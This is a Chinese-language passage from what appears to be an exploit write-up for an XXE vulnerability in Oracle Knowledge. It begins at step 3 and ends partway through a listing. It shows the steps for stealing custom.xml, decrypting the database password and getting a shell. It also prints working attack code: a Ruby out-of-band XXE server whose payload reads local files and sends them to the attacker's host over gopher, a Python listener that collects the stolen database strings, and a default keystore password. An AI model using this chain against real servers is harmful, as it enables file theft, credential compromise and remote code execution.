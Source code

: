 步骤3：窃取“custom.xml”文件。

```
x@pluto:~/xxe$ ./poc.py 
(+) pulling custom.xml for the db password...
(!) Success! please check the gopher.py window!
```

步骤4：解密或破解AES密码。

```
NOTE: you will need to bruteforce the encryption key which is contained in the wallet.
Oracle Knowledge uses 'OracleKnowledge1' as the wallet/keystore password, but you will most likely not have the wallet or keystore in which case a dictionary attack is to be used to find the password.
x@pluto:~/xxe$ ./decrypt.sh VO4+OdJq+LXTkmSdXgvCg37TdK9mKftuz2XFiM9mif4=
(+) Decrypting... "VO4+OdJq+LXTkmSdXgvCg37TdK9mKftuz2XFiM9mif4="
Result: "password"
```

步骤5：获取shell接口：

利用数据库信息，远程登录到数据库并执行代码。

你也可以在服务器系统中找到另一个配置文件，该配置文件可以允许攻击者使用一种更为“直接”的方法获取SYSTEM shell。

xxeserve.rb代码如下：

```
#!/usr/bin/env ruby
# Notes:
# - This is the out of band xxe server that is used to retrieve the file and send it via the gopher protocol
# - ruby xxeserve.rb -o 0.0.0.0
require 'sinatra'
get "/" do
  return "OHAI" if params[:p].nil?
  f = File.open("./files/#{request.ip}#{Time.now.to_i}","w")
  f.write(params[:p])
  f.close
  ""
end
get "/xml" do
  return "" if params[:f].nil?
&lt;&lt;END  
&lt;!ENTITY % payl SYSTEM "file:///#{params[:f]}"&gt;
&lt;!ENTITY % int "&lt;!ENTITY % trick SYSTEM 'gopher://#{request.host}:1337/?%payl;'&gt;"&gt;
END
end
```

gopher.py代码如下：

```
#!/usr/bin/python
# Notes:
# - This code just listens for client requests on port 1337
# - it looks for database strings and prints them out
import socket
import sys
import re
# Create a TCP/IP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Bind the socket to the port
server_address = ('0.0.0.0', 1337)
print &gt;&gt;sys.stderr, 'starting up on %s port %s' % server_address
sock.bind(server_address)
# Listen for incoming connections
sock.listen(1)
```